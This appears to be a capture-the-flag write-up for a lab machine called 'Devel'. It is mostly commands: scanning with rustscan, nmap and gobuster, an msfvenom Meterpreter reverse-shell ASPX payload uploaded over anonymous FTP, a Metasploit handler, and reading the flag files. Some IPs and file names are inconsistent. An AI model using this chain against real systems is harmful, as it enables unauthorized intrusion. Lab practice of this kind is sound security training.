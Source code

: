 # ****10.10.10.3 - Devel****

```bash
rustscan -a 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7abcf759-4f4f-4679-b5c1-7e5ce3671200)

![image](https://github.com/lufffe/Writeups/assets/90646635/09d83a51-bc6b-4b67-a279-44d602d5290d)

```bash
nmap -A -p 21,80 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0c973612-4857-4dbb-b4e6-ad240c9a39b0)

```bash
gobuster dir -u http://10.10.10.5/ -w big.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f9323095-544c-4411-8a8f-5733a4a29053)


![image](https://github.com/lufffe/Writeups/assets/90646635/c0f558b2-38e6-435e-8355-51a3c13e532f)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 -f aspx > shell2.aspx
```

![image](https://github.com/lufffe/Writeups/assets/90646635/264d53f9-d60e-4164-b1a5-42763cedcb04)

```bash
ftp 10.10.10.5
```

```bash
ftp> put shell2.aspx
```
![image](https://github.com/lufffe/Writeups/assets/90646635/667ee882-e64d-4dbd-9239-2471bccf2242)

```bash
msfconsole
```

```bash
search multi/handler
```

```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.16
```

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```bash
msf6 exploit(multi/handler) > exploit
```

[http://10.10.10.5/shell.aspx](http://10.10.10.5/luf3.aspx)

![image](https://github.com/lufffe/Writeups/assets/90646635/846d277d-55d7-4b38-86c9-f0829e8e0bcc)

```bash
meterpreter > shell
```

```bash
c:\windows\system32\inetsrv>systeminfo
```
![image](https://github.com/lufffe/Writeups/assets/90646635/84f6b6be-d526-4da0-b224-5c0d62f53360)

```bash
c:\Users>exit
```

```bash
meterpreter > background
```

![image](https://github.com/lufffe/Writeups/assets/90646635/85d9be9c-bcd3-49dd-a7d0-c6cd66fefe8d)


![image](https://github.com/lufffe/Writeups/assets/90646635/b32f2150-bba3-46ce-8de2-ee5382c4131b)

![image](https://github.com/lufffe/Writeups/assets/90646635/e8919e3e-cdcb-40a1-9cde-921c37124b60)
c:\Users\babis\Desktop>

```bash
type user.txt
```

c:\Users\Administrator\Desktop>
```bash
type root.txt
```

